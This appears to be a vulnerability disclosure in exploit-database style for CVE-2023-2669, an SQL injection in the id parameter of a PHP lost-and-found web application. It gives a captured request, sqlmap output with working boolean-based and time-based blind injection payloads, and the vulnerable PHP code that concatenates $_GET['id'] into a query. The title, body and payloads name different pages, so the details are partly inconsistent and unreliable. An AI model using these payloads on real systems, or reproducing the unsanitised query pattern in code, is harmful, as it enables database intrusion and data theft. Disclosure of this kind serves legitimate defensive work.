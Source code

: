 # Exploit Title: SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER ITEMS/VIEW.PHP ID SQL INJECTION

A vulnerability was found in SourceCodester Lost and Found Information System 1.0. It has been declared as critical. This vulnerability affects unknown code of the file admin/?page=categories/view_category of the component GET Parameter Handler. The manipulation of the argument id leads to sql injectio
### Date: 
> 12 May 2023

### ID: CVE-2023-2669
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> /admin/?page=categories/view_category&id=


### Description:
> A vulnerability was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. This affects some unknown processing of the file admin/?page=categories/view_category of the component GET Parameter Handler. The manipulation of the argument id with an unknown input leads to a sql injection vulnerability. CWE is classifying the issue as CWE-89. The software constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component. This is going to have an impact on confidentiality, integrity, and availability.
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/admin/?page=categories/view_category&id=2
2. Copy request to a txt file and run with SQLmap
Request
```
GET /php-lfis/admin/?page=categories/view_category&id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/php-lfis/admin/?page=categories
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

3. Result
```

---
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=categories/manage_category&id=2' AND 9413=9413 AND 'OfUY'='OfUY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=categories/manage_category&id=2' AND (SELECT 1200 FROM (SELECT(SLEEP(5)))pTou) AND 'jydD'='jydD
---
```
4. CODE VULNERABLE
```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `category_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }else{
		echo '<script>alert("Category ID is not valid."); location.replace("./?page=categories")</script>';
	}
}else{
	echo '<script>alert("Category ID is Required."); location.replace("./?page=categories")</script>';
}
?>
```

